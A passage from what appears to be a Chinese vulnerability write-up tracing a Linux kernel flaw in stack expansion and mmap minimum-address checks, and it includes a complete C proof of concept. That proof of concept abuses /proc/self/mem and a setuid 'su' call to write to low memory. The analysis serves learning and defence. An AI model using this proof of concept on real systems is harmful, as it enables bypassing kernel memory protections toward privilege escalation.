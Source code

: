 ~~~c
}
~~~

到这里，我们要先回溯一下，什么时候调用了漏洞函数，直接查看`expand_downwards`函数的引用就可以知道是在这里

~~~c
ret = get_user_pages_remote(current, bprm->mm, pos, 1, gup_flags,
			&page, NULL, NULL);
~~~

然后回去看师傅写的`漏洞pattern`就很明白

> cap_capable函数在检查权限时存在缺陷，在跨进程的条件下，只检测当前进程的权限，使得可以通过两个进程来绕过security_mmap_addr函数。 在get_user_pages_remote函数中存在进程调度，能够跨进程调用到security_mmap_addr函数。

具体追溯到那个执行函数，我们就要看`poc`了。。。

~~~c
#include <sys/mman.h>
#include <err.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

int main(void) {
	unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
        if (addr != 0x10000)
                err(2,"mmap failed");
        int fd = open("/proc/self/mem",O_RDWR);
        if (fd == -1)
                err(2,"open mem failed");
        char cmd[0x100] = {0};
        sprintf(cmd, "su >&%d < /dev/null", fd);
        while (addr)
        {
                addr -= 0x1000;
                if (lseek(fd, addr, SEEK_SET) == -1)
                        err(2, "lseek failed");
                system(cmd);
        }
        printf("contents:%s\n",(char *)1);
}
~~~

可以看到，poc里面执行了一个cmd命令`LD_DEBUG=help su 1>&%d`,这tmd我也不知道啥意思，找了找发现是`向/proc/self/mem中写入了数据`。这部分的关键在于通过它调用了`write`函数。

~~~c
static ssize_t mem_write(struct file *file, const char __user *buf,
			 size_t count, loff_t *ppos)
{
	return mem_rw(file, (char __user*)buf, count, ppos, 1);
}
~~~
